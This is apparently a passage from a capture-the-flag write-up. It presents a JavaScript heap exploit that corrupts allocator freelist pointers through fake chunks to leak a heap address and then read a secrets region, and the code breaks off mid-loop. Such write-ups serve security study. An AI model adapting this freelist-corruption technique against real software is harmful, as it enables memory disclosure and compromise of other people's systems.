 ### Exploit

Here is the complete code implementing the described strategy:
```JavaScript
function exploit()
{
  // Allocate aaaa and bbbb
  const junk  = Array.from(new TextEncoder().encode("JUNK"));
  const aaaa  = add(junk);
  const bbbb  = add(junk);
                add(junk); // guard
  // Free aaaa and bbbb to make bbbb.FWD == aaaa
  del(aaaa);
  del(bbbb);

  // Leak heap address from aaaa (read bbbb.FWD)
  const heap          = BigInt(read(aaaa)) - 0x40n;

  // Compute addresses we need using fixed heap offset
  const secrets_start = heap + 0x0e0n;
  const biba_start    = heap + 0x0a0n;
  const head          = heap + 0x010n;
  hex(heap);

  // Make free list empty after the heap address leak
  add(junk);
  add(junk);

  // Create Biba and Boba
  let biba  = add(junk);
  let boba  = add(junk);

  // Trigger encryption to put it's results right after Boba
  enc();

  // Leak first qword using real Boba
  let leak = BigInt(read(boba)).toString(16);
  hex(BigInt(read(boba)));

  // Define how much we want to leak from the heap right after Boba
  const leaksz = 0x200n;
  let   leaked = 0x008n;
  while (leaked < leaksz)
  {
    // Free Biba
    del(biba);

    // Write the next fake Boba address to the Biba.FWD
    let arr = pack(secrets_start-0x20n+leaked); // FWD
        arr = arr.concat(pack(head));           // BKD
    edit2(biba, arr);

    // Write fake Boba to it's place using the previous one
    arr =            pack(0x20n);       // SIZE
    arr = arr.concat(pack(0x00n));      // FWD
    arr = arr.concat(pack(biba_start)); // BKD
    edit2(boba, arr);

    // Allocate Biba back
    biba = add(junk);
    // Allocate new fake Boba
    boba = add(junk);

```